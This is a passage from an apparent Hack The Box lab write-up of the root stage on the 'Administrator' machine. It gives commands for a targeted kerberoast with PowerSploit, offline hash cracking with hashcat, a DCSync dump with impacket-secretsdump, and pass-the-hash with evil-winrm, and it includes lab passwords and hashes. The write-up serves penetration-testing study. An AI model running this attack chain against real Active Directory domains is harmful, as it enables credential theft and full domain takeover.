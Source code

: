 ## Root exploit

Now that we have our shell as `emily`, we can use `PowerSploit` again to exploit the `GenericWrite` privilege over `ethan`. We can use this privilege to set up a service principal name to the user (can be bogus) and then request a service ticket (TGS) for that new service account to retrieve their hashes (kerberoasting). 

```powershell
cd C:\Temp\Recon
Import-Module .\Recon.psm1
$SecPassword = ConvertTo-SecureString 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('ADMINISTRATOR\emily', $SecPassword)
Set-DomainObject -Credential $Cred -Identity ethan -SET @{serviceprincipalname='nonexistent/BLAHBLAH'}
Get-DomainSPNTicket -SPN nonexistent/BLAHBLAH -Credential $Cred | fl

# Optionally cleanup
Set-DomainObject -Credential $Cred -Identity ethan -Clear serviceprincipalname
```

We can then pass that hash to `hashcat` to crack it. 

```batch
hashcat.exe -m 13100 ethan.krbtgs rockyou.txt
```

Once we have `ethan`'s password, we can see in `BloodHound` that he has `DCSync` privileges, allowing us to dump domain hashes. We can use `impacket-secretsdump` for that. 

```bash
impacket-secretsdump ADMINISTRATOR/ethan:limpbizkit@administrator.htb
```

Here is the path we took in BloodHound to get from the `emily` user to the `administrator` user: 

![](/img/htb/administrator/bloodhound_emily_to_administrator.png)


Finally, we can use `evil-winrm` again to pass the administrator hash and get our root flag. 

```bash
# On the attacker's machine
evil-winrm -i 10.10.11.42 -u Administrator -p aad3b435b51404eeaad3b435b51404ee:3dc553ce4b9fd20bd016e098d2d2fd2e
```

```powershell
# On the victim's machine
type ..\Desktop\root.txt
```

## Resources:

| Hyperlink                                      | Info          |
| ---------------------------------------------- | ------------- |
| https://github.com/Hackplayers/evil-winrm      | Evil-WinRM    |
| https://github.com/SpecterOps/BloodHound       | BloodHound    |
| https://github.com/SpecterOps/SharpHound       | SharpHound    |
| https://github.com/PowerShellMafia/PowerSploit | PowerSploit   |
| https://github.com/fortra/impacket             | Impacket      |
| https://github.com/hashcat/hashcat             | hashcat       |
| https://www.pwsafe.org/                        | Password Safe |

